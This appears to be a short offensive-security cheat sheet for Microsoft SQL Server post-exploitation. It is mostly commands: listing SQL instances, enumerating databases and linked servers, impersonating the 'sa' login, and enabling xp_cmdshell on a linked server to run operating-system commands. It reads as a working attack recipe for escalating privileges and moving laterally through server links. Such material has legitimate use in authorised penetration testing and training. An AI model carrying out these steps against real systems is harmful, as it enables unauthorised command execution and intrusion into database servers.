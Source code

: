 # MSSQL Cheatsheet

PE can use `PowerUpSQL.ps1` in post exp.

## list sqlserver

```powershell
PS C:\mane> sqlcmd -L

Servers:
    ;UID:Login ID=?;PWD:Password=?;Trusted_Connection:Use Integrated Security=?;*APP:AppName=?;*WSID:WorkStation ID=?;


# OR
PS C:\mane> Get-SqlInstance
```

## Query

```powershell
PS C:\mane> sqlcmd -q "SELECT @@version"
``

```sql
# List Databases
"SELECT name FROM master..sysdatabases;"

```

## Check server link

```
EXEC sp_linkedservers;

select * from openquery("WEB\CLIENTS", 'SELECT name FROM master..sysdatabases;')
```


## Connect Server link

```
EXECUTE AS LOGIN  = 'sa';

EXECUTE ('SELECT @@servername;') at [SQLSERVER2] ;
```


## Enable xpshell to linking server

```
EXECUTE AS LOGIN  = 'sa';
EXECUTE ('EXEC sp_configure ''Show Advanced Options'', 1') at [SQLSERVER2] ;
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC sp_configure ''xp_cmdshell'', 1') at [SQLSERVER2];
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC master..xp_cmdshell ''whoami''') at [SQLSERVER2] ;
```